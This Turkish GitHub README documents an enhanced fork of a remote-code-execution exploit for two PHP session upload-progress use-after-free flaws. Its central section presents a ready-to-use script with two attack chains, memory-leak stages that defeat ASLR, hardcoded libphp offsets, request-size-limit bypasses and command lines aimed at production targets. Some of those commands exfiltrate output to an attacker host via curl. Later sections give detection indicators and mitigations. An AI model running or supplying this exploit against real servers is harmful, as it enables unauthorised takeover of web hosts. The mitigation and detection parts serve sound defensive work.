

<p align="center">
  
</p>

# php2shell — hsyncomtr Sürümü | CVE-2026-109618 / CVE-2026-109619

> Bu proje, [eness](https://github.com/eness) tarafından geliştirilen orijinal [php2shell-CVE-2026-109618-CVE-2026-109619-PoC](https://github.com/eness/php2shell-CVE-2026-109618-CVE-2026-109619-PoC) reposu temel alınarak geliştirilmiştir. Çift exploit zinciri (classic + pure), HTTP worker rotasyonu, düşük upload limitli hedefler için mikro/nano sızıntı spec'leri ve Türkçe dokümantasyon bu sürümde eklenmiştir.

> **Kritik Danışma (CVSS v4.0: 9.2 - Kritik):** 20 Ekim'de, PHP çekirdeğindeki iki kimlik doğrulaması öncesi Uzaktan Kod Yürütme (RCE) açığının detayları, koordine edilmiş açıklamadan önce internete sızdı. Sömürü, web sunucusundan doğrudan keyfî komut çalıştırmaya izin veriyor.

---

## İçindekiler

- [Genel Bakış](#genel-bakış)
  - [Kök Neden](#kök-neden)
  - [Doğrulama ve Hedefler](#doğrulama-ve-hedefler)
- [Etkilenen PHP Sürümleri](#etkilenen-php-sürümleri)
- [Tehdit Ortamı ve Tespît Rehberi](#tehdit-ortamı-ve-tespît-rehberi)
  - [Davranışsal Belirtiler ve Şüpheli Alt Süreçler](#davranışsal-belirtiler-ve-şüpheli-alt-süreçler)
  - [İzleme Önerisi](#izleme-önerisi)
- [Kurumlar için Eylem Maddeleri](#kurumlar-için-eylem-maddeleri)
- [Kullanıma Hazır Sömürü (PoC)](#kullanıma-hazır-sömürü-poc)
  - [Çift Exploit Zinciri](#çift-exploit-zinciri)
  - [Exploit Mimarisi ve Aşamaları (classic)](#exploit-mimarisi-ve-aşamaları-classic)
  - [Pure Zinciri (display_errors=Off, üretim)](#pure-zinciri-display_errors-off-üretim)
  - [Hedef Gereksinimleri](#hedef-gereksinimleri)
  - [Kullanım ve Parametreler](#kullanım-ve-parametreler)
  - [Profiller ve Offsetler](#profiller-ve-offsetler)
- [Azaltım ve Kaynak Yaması](#azaltım-ve-kaynak-yaması)
  - [1. Yapılandırma Azaltımı (Anında Geçici Çözüm)](#1-yapılandırma-azaltımı-anında-geçici-çözüm)
  - [2. Otomatik Hızlı-Fix Scripti](#2-otomatik-hızlı-fix-scripti)
  - [3. Kaynak Kod Yaması (`session-upload-progress-counters.patch`)](#3-kaynak-kod-yaması-session-upload-progress-counterspatch)
  - [4. Cloudflare WAF Özel Kuralları](#4-cloudflare-waf-özel-kuralları)
  - [5. FrankenPHP Caddyfile Yapılandırması](#5-frankenphp-caddyfile-yapılandırması)
  - [6. Lighttpd Yapılandırması](#6-lighttpd-yapılandırması)
  - [7. Apache Azaltımı (ModSecurity ve .htaccess)](#7-apache-azaltımı-modsecurity-ve-htaccess)
- [Yasal Uyarı](#yasal-uyarı)

---

### Genel Bakış

`php2shell`, PHP çekirdeği oturum işlevseliğini etkileyen iki kritik güvenlik açığını (CVE-2026-109618 ve CVE-2026-109619) ifade eder. Asıl kanıtlanmış vektör, keyfî kod yürütmeyle (`zend_call_function` / `system()`) sonuçlanan PHP çekirdeği oturum yükleme ilerlemesi mekanizmasındaki bir heap use-after-free (UAF) güvenlik açığıdır.

- **Önem Derecesi:** Kritik (CVSS v4.0: 9.2)
- **Etkilenen Sürümler:** Raporlar PHP 5, 6, 7 ve 8 sürümlerinin etkilenebileceğini gösteriyor. Düzeltmeler öncelikli olarak halen desteklenen PHP 8 dalları için bekleniyor; ömrünü tamamlamış (EOL) sürümler (PHP 5.x, 7.x, 8.0, 8.1) resmî satıcı yaması olmadan açıkta kalıyor.
- **Sektör Takibi:** Güvenlik araştırmacıları tarafından doğrulandı (watchTowr, CVE-2026-109618'i yeniden üretti; Huntress ve Florian Roth / process-watcher izlemede).

#### Kök Neden

PHP'nin yükleme ilerlemesi işleyicisi (`ext/session/session.c` içindeki `php_session_rfc1867_callback`), canlı `HashTable` yapılarına doğrudan iki ham `zval *` bucket işaretçisi (`post_bytes_processed` ve `current_file_bytes_processed`) depolar.

İstek işlenirken:
1. **Tetikleme:** Standart bir multipart `POST` isteği, varsayılan yapılandırma değerleriyle ilerleme takibini etkinleştirir (`session.upload_progress.enabled = 1`).
2. **Serbest bırakma:** Bir ilerleme güncelleme döngüsü oturum verisini yeniden okur. `zend_hash_update()` fonksiyonu, önceki veri ağacını `zval_ptr_dtor` yıkıcısıyla yok ederek bellek bloğunu serbest bırakır.
3. **Geri kazanım:** Serbest bırakılan bucket belleği geri kazanılır. Sarkan işaretçi, hazırlanmış `zend_fcall_info` ve `zend_internal_function` yapılarına yönlendirilir.
4. **Yürütme:** PHP `zend_call_function()` çağırır; bu da keyfî sistem komutu yürütmesiyle sonuçlanır.

#### Doğrulama ve Hedefler

- Standart `php-src` derlemelerinde doğrulandı (8.4.4 ve 8.2.34 sürümleri dahil).
- Dağıtıma özgü ikili düzenlere uyum sağlamak için `zval_ptr_dtor` ile `zend_call_function` arasındaki sembol ofsetlerini (`--syms`) kullanır (örn. Debian Bookworm, Ubuntu Noble, Ubuntu Jammy).

---

### Etkilenen PHP Sürümleri

Aşağıdaki tablo **CVE-2026-109618** ve **CVE-2026-109619**'dan etkilenen PHP sürümlerini, destek ve yama durumlarıyla özetler:

| PHP Dalı | Durum | Etkilenen Sürümler | Düzeltilmiş / Güvenli Sürüm | Notlar |
| :--- | :--- | :--- | :--- | :--- |
| **PHP 8.5** | Destekleniyor (Aktif) | < 8.5.12 | **8.5.12** | Acil güvenlik sürümü yayımlandı |
| **PHP 8.4** | Destekleniyor (Aktif) | < 8.4.27 | **8.4.27** | Acil güvenlik sürümü yayımlandı |
| **PHP 8.3** | Destekleniyor (Aktif) | < 8.3.36 | **8.3.36** | Acil güvenlik sürümü yayımlandı |
| **PHP 8.2** | Destekleniyor (Yalnızca Güvenlik) | < 8.2.35 | **8.2.35** | Acil güvenlik sürümü yayımlandı |
| **PHP 8.1** | Ömrü Tamamlandı (EOL) | Tüm 8.1.x sürümleri | Resmî Yama Yok (EOL) | `session.upload_progress.enabled = Off` yapın veya ELS/dağıtım geri portlarını kullanın |
| **PHP 8.0** | Ömrü Tamamlandı (EOL) | Tüm 8.0.x sürümleri | Resmî Yama Yok (EOL) | Resmî destek bitti; yapılandırma azaltımı zorunludur |
| **PHP 7.x** | Ömrü Tamamlandı (EOL) | Tüm 7.0 - 7.4 sürümleri | Resmî Yama Yok (EOL) | Çekirdek `ext/session` mantığı savunmasız; acil azaltım veya yükseltme gerekli |
| **PHP 5.x** | Ömrü Tamamlandı (EOL) | 5.4.0+ (RFC1867 ilerleme takibi ile) | Resmî Yama Yok (EOL) | Resmî destek bitti; sunucuyu yalıtın veya yükleme ilerlemesini kapatın |

> [!WARNING]
> PHP 8.1 ve daha eski ömrü tamamlanmış (EOL) sürümler PHP Vakfı'ndan **resmî güvenlik yaması almaz**. Bu ortamlarda derhal [`session.upload_progress.enabled = Off`](#1-yapılandırma-azaltımı-anında-geçici-çözüm) uygulayın veya sağlanan C kaynak yamasıyla PHP'yi yeniden derleyin.

---

### Tehdit Ortamı ve Tespît Rehberi

`php2shell` sömürüsü tipik olarak PHP worker süreçleri (`php-fpm`, `php-cgi`, `php-cgi.exe`, `httpd`, `apache2`) tarafından doğrudan başlatılan anormal alt süreçler olarak kendini gösterir.

#### Davranışsal Belirtiler ve Şüpheli Alt Süreçler

PHP worker süreçlerinin şunları yürüttüğünü izleyin ve uyarın:
- **Etkileşimli Kabuklar:** `/bin/sh`, `/bin/bash`, `cmd.exe`, `powershell.exe`
- **Betik Yorumlayıcıları:** `python`, `perl`
- **Ağ / Aktarım Araçları:** `curl`, `wget`, `nc`, `certutil.exe`
- **Yaygın Ters-Kabuk Kalıpları:** `/dev/tcp/`, `fsockopen`, `mkfifo`
- **Anında Keşif Komutları:** `whoami`, `id`, `uname -a`, `ipconfig`

#### İzleme Önerisi

Uç nokta tespit ajanı olmayan Linux tabanlı web ortamları için Florian Roth'un ücretsiz [process-watcher](https://github.com/Neo23x0/process-watcher) aracı, olağan dışı alt süreç başlatmalarını gerçek zamanlı işaretlemek üzere gözlem modunda çalıştırılabilir.

---

### Kurumlar için Eylem Maddeleri

1. **Tüm PHP Ortamlarını Envantere Çıkarın:**
   - WordPress, Drupal, Joomla veya Magento gibi uygulamalar çalıştıran internete açık web sunucuları.
   - İç cihazlar, barındırma panelleri (cPanel, Plesk) ve paket halindeki bağımsız ikililer (`php.exe`, `php-cgi.exe`).
2. **Yama Penceresine Hazırlanın:**
   - PHP ve aşağı yönlü Linux dağıtımlarından gelen resmî acil yamaların yayımlanması planlandı; bir kez yayımlandığında derhal uygulayın.
   - Dağıtımınızın güvenlik duyurularını takip edin.
3. **Ömrü Tamamlanmış (EOL) Kurulumları Yalıtın:**
   - Desteklenmeyen sürümler (PHP 5.x, 7.x, 8.0, 8.1) çalıştıran ortamlar yukarı akım geri portu almayabilir.
   - VPN ile erişimi kısıtlayın, katı WAF kuralları uygulayın veya genel internete açıklığı kaldırın.
4. **Olay Müdahalesi ve Soruşturma:**
   - Şüpheli alt süreçler veya beklenmedik dosyalar tespit edilirse sunucuyu yalıtın ve web sunucusu/PHP günlüklerini koruyun.
   - Bırakılmış webshells veya geçici yürütme artefaktları için web köklerini ve geçici dizinleri (`/tmp`, `/var/tmp`) inceleyin.

---

### Kullanıma Hazır Sömürü (PoC)

**CVE-2026-109618**'i hedefleyen tam otomatik tek-tık sömürü [`poc_109618.py`](poc_109618.py) dosyasındadır — yardımcı script gerektirmeyen, hedef tarafında dosya bırakmayan, kendi kendine yeten tek dosya; ASLR'ı uzaktan atlatır ve artık **iki exploit zinciri** içerir; hedef koşullarına göre otomatik seçilir.

#### Çift Exploit Zinciri

| | **classic** (varsayılan profil) | **pure** (üretim) |
| :--- | :--- | :--- |
| **Hedef ayarları** | `display_errors=1`, `memory_limit=8M` | `display_errors=Off`, `memory_limit=32M..512M` |
| **Sızıntı aşamaları** | 2 ayrı aşama (heap → libphp) | **1 aşama**: 800KB OOB okuma İKİ tabanı birden verir |
| **Komut boyutu** | 14 byte (167 byte taşıyıcı) | **200 byte** (384 byte taşıyıcı) |
| **post_max_size atlaması** | — (OOM alanı tek istek içinde taşınır) | ✅ chunked `Transfer-Encoding` ile |
| **Worker rotasyonu** | ✅ Her aşama arasında yalnız-HTTP `rotate()` | ✅ Aynı rotasyon 9bie'nin docker-restart'ının yerini alır, uzakta da çalışır |
| **Seçim** | `--chain classic` | `--chain pure`, ya da `auto`: `--memory-limit > 8` veya komut 14 byte'ı aşınca pure'u seçer; `auto` ayrıca başarısızlıkta classic → pure'a düşer |

#### Exploit Mimarisi ve Aşamaları (classic)

1. **Aşama 0 — HTTP Worker Rotasyonu:** Mevcut prefork worker'ı HTTP üzerinden iptal eder; böylece yeni çatallanan worker çocuğunda temiz heap durumu garanti edilir.
2. **Aşama 1 — Heap Taban Sızıntısı:** Devasa bir multipart alanı (`--huge-mb`, varsayılan `12MB`) ile bellek-yetersizliği (OOM) durumu tetiklenir; `Set-Cookie: PHPSESSID` üzerinden ilklendirilmemiş bellek sızdırılır ve Zend MM 2MB hizalı chunk tabanı çıkarılır.
3. **Aşama 2 — Libphp Taban Sızıntısı:** Oturum serileştirme / HashTable ayırma hizalamasından yararlanılarak `ZVAL_PTR_DTOR` fonksiyon işaretçisi `Set-Cookie` üzerinden sızdırılır ve `libphp.so` taban adresi hesaplanır.
4. **Aşama 3 — Sahte Referans ve Keyfî Yürütme:** İçine `pDestructor` doğrudan `libphp.so` içindeki `zif_system`'ı gösterecek şekilde sahte bir `HashTable` gömülen 167 byte'lık bir `zend_string` dövülür. Hazırlanan referans `PS(http_session_vars)` üzerine yazar. PHP oturum verisini serbest bıraktığında `zif_system` verilen komutu yürütür.

> [!NOTE]
> classic komutu, 167 byte'lık canlı `zend_string` taşıyıcısının içine gömülür (0x98 başlık + NUL sınırı); bu, satır içi komutları **14 byte** ile sınırlar. Daha uzun komutlar için `--chain pure` (**200 byte**) veya `sh</tmp/c` gibi kısa bir tetikleyici kullanın.

#### Pure Zinciri (display_errors=Off, üretim)

**Gerçek üretim ayarlarıyla** (`display_errors=Off`, varsayılan `memory_limit=128M`) çalışan dört adımlı çapraz-istek zinciri; 9bie araştırma zincirinden uyarlanmış ve bu deponun HTTP worker rotasyonuyla sertleştirilmiştir:

1. **A1 — END-cleanup send_cookie OOM:** Derinlik-64 iç içe boş dosya alanları + büyük değerler, rfc1867 ayrıştırıcısı içinde `memory_limit`i tüketir — istek **chunked `Transfer-Encoding` ile gönderilir** ve bu, `post_max_size` / `LimitRequestBody` kontrollerini atlatır. OOM bailout'u modül kapanışını atlar; `send_cookie=1` ile sarkan `PS(id)` kalır.
2. **B1 — bayat-id 800KB OOB okuma:** Sel değerleri, sahte bir `zend_string` başlığı (devasa `len`) yerleştirir; böylece bayat oturum id okuması heap artığını `Set-Cookie` içine taşırır. Tek istek **iki sızıntıyı birden** verir: `zval_ptr_dtor` histogram modu libphp tabanını; 2MiB hizalı bucket kümelemesi (kararlı işaretçi sayısına karşı parmak izlenerek) ana Zend MM chunk tabanını verir. `--leak-size small` tutucu 256KB okuma kullanır.
3. **A2 — ucuz-OOM:** İç içe boş dosya alanları, RINIT tamamlanmadan önce OOM olur ve sarkan bir `PS(http_session_vars)` bırakır; dolgu alanları referansı kalibre edilmiş yuvaya kaydırır.
4. **B2 — sahte referans + sahte `zend_array`:** 384 byte'lık değerlerden oluşan bir sprey, her 32 byte'da bir sahte `zend_reference` gömer (geri kazanılan yuva nereye düşerse düşsün doğru hizalama bulunur); ayrıca `pDestructor = zif_system` olan 384 byte'lık sahte `zend_array`'i taşıyan bir `ht` alanı gönderilir. Oturum hash'i serbest bırakılınca `zif_system(komut)` tam **200 byte**'lık komutla satır içi çağrılır.

> [!TIP]
> Kanıt dosyasına erişilemeyen uzak hedefler için bant dışı komut kullanın: `--cmd 'curl http://SALDIRGAN/$(id|base64)'` ve dinleyicinizi izleyin. Kör mod, zayıf başarı sinyali olarak worker canlılığını yoklar.

#### Hedef Gereksinimleri

**classic** zinciri, Apache prefork altında mod_php'yi şu ayarlarla hedefler:
- `display_errors = 1`
- `memory_limit = 8M` (ya da `--huge-mb` değerinin belirgin biçimde altında)
- `max_input_vars = 1000`
- `session.use_cookies = 1`, `session.use_strict_mode = 0`
- `session.upload_progress.enabled = 1`
- Tek-worker / prefork süreç modeli

**pure** zinciri ise yalnızca şunları gerektirir:
- `display_errors = Off` (üretim varsayılanı)
- **32M ile 512M arasında** `memory_limit` (payload `--memory-limit` ile otomatik boyutlanır, varsayılan 128M)
- Ara vekil sunucu tarafından dayatılmayan `post_max_size` (chunked TE Apache'ye ulaşmalı; ön uç `Transfer-Encoding`'i söküyorsa `--no-chunked` kullanın)
- classic ile aynı oturum/yükleme-ilerlemesi ayarları

#### Kullanım ve Parametreler

##### Temel Yürütme
```bash
# Hedef URL'ye karşı varsayılan komut yürütme (otomatik zincir seçimi)
python3 poc_109618.py -u http://127.0.0.1:8088/index.php

# Hedefin parmak izini al (sunucu banner'ı, PHP sürümü, mod_php ipucu) ve çık
python3 poc_109618.py -u https://hedef/ --probe-only

# Özel komut yürüt (classic: en fazla 14 byte) ve yerel kanıt dosyasıyla doğrula
python3 poc_109618.py -u http://127.0.0.1:8088/index.php -c 'id>/out/p1' --proof-file out/p1

# Webroot'a yazan komut yürüt ve HTTP GET ile çekerek doğrula
python3 poc_109618.py -u http://127.0.0.1:8088/index.php -c 'id>p1.txt' --fetch /p1.txt
```

##### Üretim Hedefleri (pure zinciri — display_errors=Off)
```bash
# Üretim ayarları: display_errors=Off, memory_limit=128M, 200 byte komutlar
python3 poc_109618.py -u https://hedef/index.php --chain pure --memory-limit 128 \
    -c 'curl http://SALDIRGAN/$(id|base64)'

# Daha yüksek memory_limit'li hedefler — OOM payload'ı otomatik boyutlanır (32/64/128/256/512)
python3 poc_109618.py -u https://hedef/ --chain pure --memory-limit 256

# 800KB standart yerine tutucu 256KB sızıntı penceresi
python3 poc_109618.py -u https://hedef/ --chain pure --leak-size small

# Düşük upload limiti olan hedefler (post_max_size/LimitRequestBody ≤8MB)
python3 poc_109618.py -u https://hedef/ --chain pure --leak-size micro  # ~6MB gövde
python3 poc_109618.py -u https://hedef/ --chain pure --leak-size nano   # ~2.4MB gövde

# Ön uç Transfer-Encoding'i söküyor — Content-Length isteklerine geri dön
python3 poc_109618.py -u https://hedef/ --chain pure --no-chunked

# A1/B1 HTTP yanıtlarını sorun giderme için logla
python3 poc_109618.py -u https://hedef/ --chain pure --debug-http
```

##### Otomatik Düşüş
`--chain auto` (varsayılan) hedefi yoklar, sonra:
1. `--memory-limit > 8` veya komut 14 byte'ı aştığında **pure** zincirini dayatır,
2. aksi halde önce **classic**'i çalıştırır (en hızlısı), ve
3. tüm classic denemeleri başarısız olursa otomatik classic → pure'a düşer.

##### Komut Satırı Seçenekleri
| Seçenek | Açıklama | Varsayılan |
| :--- | :--- | :--- |
| `-u`, `--url` | **(Zorunlu)** Hedef PHP uç noktası URL'si | `None` |
| `-c`, `--cmd` | Çalıştırılacak komut (classic en fazla 14B, pure 200B) | `id>/out/p1` |
| `--chain` | `classic`, `pure` veya `auto` (auto uzun komut / yüksek memory_limit için pure seçer, classic→pure'a düşer) | `auto` |
| `--memory-limit` | Hedef `memory_limit` (MB) (8/32/64/128/256/512); pure OOM payload'ını boyutlar | `128` (pure) |
| `--oom-big` / `--oom-parts` | A1 büyük-değer / iç-içe-parça sayılarını elle geçersiz kıl | limite göre otomatik |
| `--leak-size` | B1 OOB okuma boyutu: `big` (800KB, ~31MB gövde), `small` (256KB, ~15MB), `micro` (128KB, ~6MB), `nano` (64KB, ~2.4MB) | `big` |
| `--no-chunked` | A1/B1'i chunked TE yerine Content-Length ile gönder | `False` |
| `--pure-fillers` | A2 ucuz-OOM dolgu sayısı (heap şekillendirme) | `115` |
| `--pure-zdtor` / `--pure-zif` / `--pure-s-offset` | Pure-zincir libphp/chunk offsetleri | `0x65eb60` / `0x465370` / `0xf8398` |
| `--probe-only` | Hedefin parmak izini al ve çık | `False` |
| `--insecure-tls` | TLS sertifika doğrulamasını atla (self-signed hedefler) | `False` |
| `--proof-file` | Sömürü sonrası kontrol edilecek yerel kanıt dosyası; `''` kapatır | `out/p1` |
| `--fetch` | Sömürü sonrası GET ile çekilecek göreli HTTP yolu (webroot'a yazarken) | `""` |
| `--profile` | Classic derleme profili: `bookworm` (resmî `php:8.4.26-apache`) veya `lab` (Apache 2.4.68) | `bookworm` |
| `--zif-offset` | `libphp.so` içinde `zif_system` ofseti (onaltılık, örn. `0x43a870`) | Offsets dosyasından |
| `--dtor-offset` | `libphp.so` içinde `ZVAL_PTR_DTOR` ofseti (onaltılık, örn. `0x613c50`) | Offsets dosyasından |
| `--htdata-offset` | 167 byte'lık canlı string taşıyıcının chunk'a göreli ofseti | Profile göre (`0x690d8` veya `0x6e0d8`) |
| `--offsets-file` | Türetilen `libphp` offsetlerinin yükleneceği/kaydedileceği yol | `out/offsets.env` |
| `--docker-container`| Localkovt'ta offsetleri otomatik türetmek için konteyner adı | `php2shell-target` |
| `--no-auto-offsets` | Docker yardımcısıyla otomatik offset çıkarmayı kapat | `False` |
| `--huge-mb` | Classic OOM payload'ının MB cinsinden boyutu; hedef `memory_limit`i aşmalı | `12` |
| `--timeout` | İstek başına ağ soketi zaman aşımı (saniye) | `30.0` |
| `--retries` | Zincir başına deneme sayısı (classic aşama 3 `retries + 2` çalıştırır) | `3` |
| `--no-pre-rotate` | Başlangıç worker rotasyonunu atla (Aşama 0) | `False` |
| `--no-retry-rotate` | Başarısız aşama denemeleri arasında worker rotasyonu yapma | `False` |
| `-q`, `--quiet` | Ayrıntılı çıktı günlüğünü sustur | `False` |
| `--debug-http` | A1/B1 aşamalarında HTTP yanıt başlıklarını, Set-Cookie ve PHPSESSID durumunu logla (sorun giderme) | `False` |

#### Profiller ve Offsetler

Exploit scripti **classic** zincir için profile dayalı ön ayarlar destekler:
- **`--profile bookworm` (Varsayılan):** Debian 12 (Bookworm) üzerinde Apache 2.4.69 ile çalışan resmî Docker kütüphane imajı `php:8.4.26-apache` için kalibre edildi.
- **`--profile lab`:** Özel/minimal Apache 2.4.68 derlemeleri için kalibre edildi.

**pure** zinciri kendi offset setini taşır (resmî `php:8.4.26-apache` trixie araç zinciri, `display_errors=Off`, 128M):
| Sembol | Ofset | CLI geçersiz kılma |
| :--- | :--- | :--- |
| `zval_ptr_dtor` (libphp) | `0x65EB60` | `--pure-zdtor` |
| `zif_system` (libphp) | `0x465370` | `--pure-zif` |
| sahte-dizi `S` (ana chunk) | `0xF8398` | `--pure-s-offset` |
| A2 dolguları (heap şekillendirme) | `115` | `--pure-fillers` |

Yerel Docker konteynerlerini (`127.0.0.1` / `localhost`) hedeflerken script, `docker/offsets.py` ile çalışan konteynerden ikili sembol offsetlerini otomatik çıkarıp `out/offsets.env` dosyasına önbellekleyebilir (dosya ayrıca `PURE_ZDTOR_OFFSET` / `PURE_ZIF_OFFSET` / `PURE_S_OFFSET` girdilerini de kabul eder). İkili düzenin Debian 12'den farklı olduğu uzak hedefler için `--zif-offset` / `--dtor-offset` (classic) veya `--pure-zdtor` / `--pure-zif` / `--pure-s-offset` (pure) değerlerini elle verin.

---

### Azaltım ve Kaynak Yaması

Resmî satıcı paketleri depolarınızda güncellenene kadar ortamlarınızı yapılandırma değişiklikleri, otomatik scriptler veya sağlanan kaynak yamasıyla derlenen PHP ile koruyabilirsiniz.

#### 1. Yapılandırma Azaltımı (Anında Geçici Çözüm)

Güvenlik açığı, varsayılan olarak etkin olan PHP'nin oturum yükleme ilerlemesi mekanizmasına (`session.upload_progress.enabled`) dayanır. Bu yönergeyi kapatmak, normal dosya yükleme işlevini korurken saldırı vektörünü etkisiz hale getirir:

`php.ini` dosyanızda:
```ini
session.upload_progress.enabled = Off
```

Ya da PHP-FPM havuz yapılandırmaları için (örn. `/etc/php/*/fpm/pool.d/www.conf`):
```ini
php_admin_flag[session.upload_progress.enabled] = off
```

Yapılandırmayı değiştirdikten sonra web servislerinizi yeniden yükleyin/yeniden başlatın (örn. `systemctl reload php-fpm` veya `systemctl reload apache2`).

#### 2. Otomatik Hızlı-Fix Scripti

[`quick-fix/`](quick-fix/) dizininde bir azaltım yardımcı scripti bulunur:

- **Mevcut Durumu Kontrol Et:**
  ```bash
  sudo ./quick-fix/run.sh --check
  ```
- **Azaltmayı Uygula (Kuru Çalıştırma):**
  ```bash
  sudo ./quick-fix/run.sh --dry-run
  ```
- **Azaltmayı Uygula:**
  ```bash
  sudo ./quick-fix/run.sh
  ```
- **Değişiklikleri Geri Al:**
  ```bash
  sudo ./quick-fix/run.sh --revert
  ```

#### 3. Kaynak Kod Yaması (`session-upload-progress-counters.patch`)

PHP'yi kaynaktan derliyorsanız veya özel dağıtım paketleri bakımını yapıyorsanız, [`patch/session-upload-progress-counters.patch`](patch/session-upload-progress-counters.patch) altında C düzeyinde bir kaynak yaması sağlanmıştır.

**Yamanın neyi düzelttiği:**
Yama, `ext/session/session.c` ve `ext/session/php_session.h` içindeki kök nedeni çözer. Dinamik `HashTable` yapılarına (yükleme ilerlemesi güncellemeleri sırasında hash tablosu temizlendiğinde veya yeniden ayrıldığında sarkan işaretçiye dönüşen) ham `zval *` bucket işaretçileri (`post_bytes_processed` ve `current_file_bytes_processed`) tutmak yerine:
- Sayaçları doğrudan `zend_long` ilkel türleri olarak depolar.
- Sarkan referanslar olmadan dizi girdilerini güvenle çözmek ve güncellemek için `php_session_rfc1867_sync_counters()` tanıtır.

**Yamanın Uygulanışı:**

1. `php-src` kaynak dizininizin köküne gidin:
   ```bash
   cd /php-src/yolu
   ```

2. Yamayı test et (kuru çalıştırma):
   ```bash
   # git ile (git klonundan derlerken)
   git apply --check /yol/patch/session-upload-progress-counters.patch

   # VEYA GNU patch ile
   patch -p1 --dry-run < /yol/patch/session-upload-progress-counters.patch
   ```

3. Yamayı uygula:
   ```bash
   # git ile
   git apply /yol/patch/session-upload-progress-counters.patch

   # VEYA GNU patch ile
   patch -p1 < /yol/patch/session-upload-progress-counters.patch
   ```

4. PHP'yi yeniden derle ve kur:
   ```bash
   ./buildconf --force   # gerekirse
   ./configure <seçenekleriniz>
   make -j"$(nproc)"
   sudo make install
   ```

5. PHP çalışma zamanı / web servislerini yeniden başlat:
   ```bash
   sudo systemctl restart php-fpm
   # veya
   sudo systemctl restart apache2
   ```

##### EOL Sürümler için Topluluk Geri Portları (PHP 5.6, 7.4, 8.0, 8.1)

Desteklenen PHP 8.2+ sürümlerine hemen yükseltme yapamayan eski sistemler için (örn. PHP 5.6, 7.4, 8.0 veya 8.1 üzerinde çalışan eski OpenCart, WordPress veya kontrol panelleri), resmî PHP Grubu OOM düzeltmesini kök-neden sayaç senkronizasyonuyla birleştiren özel geri portlar mevcuttur:
- 👉 **Depo:** [Anton-Barinov/php2shell-patches](https://github.com/Anton-Barinov/php2shell-patches)
- Sistem paketlerinin üzerine yazmadan `/opt/php-<sür>-patched` altına yalıtılmış, yan yana çalışma zamanları derlemek için otomatik derleme scriptleri ve çoklu-PHP FPM havuz sertleştirme araçları içerir.

#### 4. Cloudflare WAF Özel Kuralları

Kötücüllü trafiği süzmek için önerilen Cloudflare WAF kural şablonları [`cloudflare-rule-fix/`](cloudflare-rule-fix/) dizininde yer alır:
- **Kapsamlı multipart engelleme (meşru yükleme yolları hariç)**
- **Kurumsal plan `PHP_SESSION_UPLOAD_PROGRESS` istek gövdesi incelemesi**
- *Not:* Yalnızca `PHPSESSID` cookie'sine dayanarak istek engellemek kesinlikle önerilmez; geçerli kullanıcı oturumlarını bozar. Tam kural sözdizimi ve detaylar için [cloudflare-rule-fix/README.md](cloudflare-rule-fix/README.md) dosyasına bakın.

#### 5. FrankenPHP Caddyfile Yapılandırması

FrankenPHP ortamlarında oturum yükleme ilerlemesi mekanizmasını global olarak kapatmak için bir Caddyfile parçası sağlanmıştır.

[`frankenphp/Caddyfile-snippet`](frankenphp/Caddyfile-snippet) içeriğini global Caddyfile bloğunuza ekleyin:
```caddyfile
{
    frankenphp {
        php_ini session.upload_progress.enabled 0
    }
}
```

#### 6. Lighttpd Yapılandırması

Lighttpd çalıştıran ortamlarda, dosya yükleme kabul etmeyen sanal sunucularda veya dizinlerde multipart isteklerini (`POST`, `PUT`, `PATCH`) engellemek için [`lighttpd/php2shell.conf`](lighttpd/php2shell.conf) kullanılabilir:
```lighttpd
$HTTP["request-method"] =~ "^(POST|PUT|PATCH)$" {
    $REQUEST_HEADER["Content-Type"] =~ "(?i)^\s*multipart/form-data([;,[:space:]]|$)" {
        url.access-deny = ( "" )
    }
}
```

#### 7. Apache Azaltımı (ModSecurity ve .htaccess)

Apache ortamları için iki azaltım seçeneği sunulur:

- **ModSecurity Kuralı:** [`apache/modsecurity-php2shell.conf`](apache/modsecurity-php2shell.conf) kullanarak `PHP_SESSION_UPLOAD_PROGRESS` parametresini içeren istekleri engelle:
  ```apache
  SecRequestBodyAccess On
  SecRule ARGS_NAMES "@streq PHP_SESSION_UPLOAD_PROGRESS" \
      "id:1026109618,phase:2,t:none,deny,status:403,log,\
      msg:'php2shell: PHP_SESSION_UPLOAD_PROGRESS alanı engellendi (CVE-2026-109618/109619)'"
  ```

- **`.htaccess` / mod_rewrite Kuralı:** Dosya yükleme gerektirmeyen dizinlerde, multipart isteklerini PHP yorumlayıcısına ulaşmadan önce engelle — [`apache/.htaccess`](apache/.htaccess):
  ```apache
  RewriteEngine On
  RewriteCond %{REQUEST_METHOD} ^(POST|PUT|PATCH)$ [NC]
  RewriteCond %{HTTP:Content-Type} ^[[:space:]]*multipart/form-data([;,[:space:]]|$) [NC]
  RewriteRule ^ - [F,L]
  ```

---

### Yasal Uyarı

Bu proje (hsyncomtr sürümü) yalnızca eğitim amaçlı ve yetkili güvenlik araştırması içindir. Yalnızca sahibi olduğunuz veya test etmek için açık izniniz bulunan ortamlarda kullanın. Yetkisiz kullanım yasa dışıdır ve ağır yasal yaptırımlara yol açabilir.

---

### Yazar ve İletişim

- **hsyncomtr** — bu geliştirilmiş sürümün bakımcısı
- ref: [eness/php2shell-CVE-2026-109618-CVE-2026-109619-PoC](https://github.com/eness/php2shell-CVE-2026-109618-CVE-2026-109619-PoC)
- Katkılar ve geri bildirimler için repoya issue açabilirsiniz.
